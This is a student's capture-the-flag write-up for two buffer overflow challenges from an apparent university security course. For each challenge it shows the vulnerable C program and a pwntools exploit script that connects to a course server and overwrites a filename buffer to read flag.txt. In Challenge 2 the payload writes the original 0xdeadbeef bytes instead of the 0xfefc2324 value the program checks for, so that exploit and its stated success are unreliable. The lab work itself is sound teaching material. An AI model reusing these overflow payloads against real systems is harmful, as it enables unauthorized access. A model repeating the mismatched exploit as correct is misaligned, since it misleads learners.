

# CTF WEEK 4 - Buffer Overflow

## Challenge 1

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
### Atack:
Induce a buffer overflow in the 'buffer' by injecting more than 32 bytes, exceeding its initialized space. Once you've surpassed the 32-character limit, input the desired content you want the array, responsible for storing the filename to be opened, to contain (e.g., 'write flag.txt'). By doing so, you ensure that the file opened will be 'flag.txt'.
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

After running the exploit:



## Challenge 2

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```
### Atack:
To pass this obstacle, all that is required is to input the precise sequence of characters into the buffer, which we achieved by making necessary edits to the Python exploit file.
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"12345678901234567890123456789012\xef\xbe\xad\xdeflag.txt\0")
r.interactive()
```
After running the exploit:

